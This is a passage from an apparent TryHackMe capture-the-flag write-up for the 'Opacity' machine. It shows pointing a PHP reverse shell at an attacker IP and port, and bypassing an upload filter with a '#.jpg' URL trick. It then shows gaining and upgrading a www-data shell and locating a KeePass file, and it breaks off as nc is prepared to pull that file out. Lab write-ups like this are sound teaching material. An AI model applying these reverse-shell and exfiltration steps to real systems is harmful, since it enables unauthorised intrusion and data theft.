 Set IP and PORT to our attacking machine IP and port to 5555:

```bash
$ip = '10.10.95.60';
$port = 5555;  
```

Then repeating the step by using `http://10.10.95.60:8080/shell.php#.jpg` on upload field we successfully got a reverse shell as `www-data`:

![alt text](../assets/img/posts/2025-02-27-thm-writeup-opacity/image-6.png)

```bash
$ whoami
www-data
$ python3 -c "import pty;pty.spawn('/bin/bash')"       
www-data@opacity:/$ export TERM=xterm
export TERM=xterm
www-data@opacity:/$ 
```

But being `www-data` we cannot read the flag

![alt text]../assets/img/posts/2025-02-27-thm-writeup-opacity/(image-7.png)

After inspecing filesystem for some time we found `dataset.kdbx` under `/opt` directory, which is a keepass database file:

![alt text](../assets/img/posts/2025-02-27-thm-writeup-opacity/image-8.png)

We download it by using `nc`. We start a listener on our attacking machine

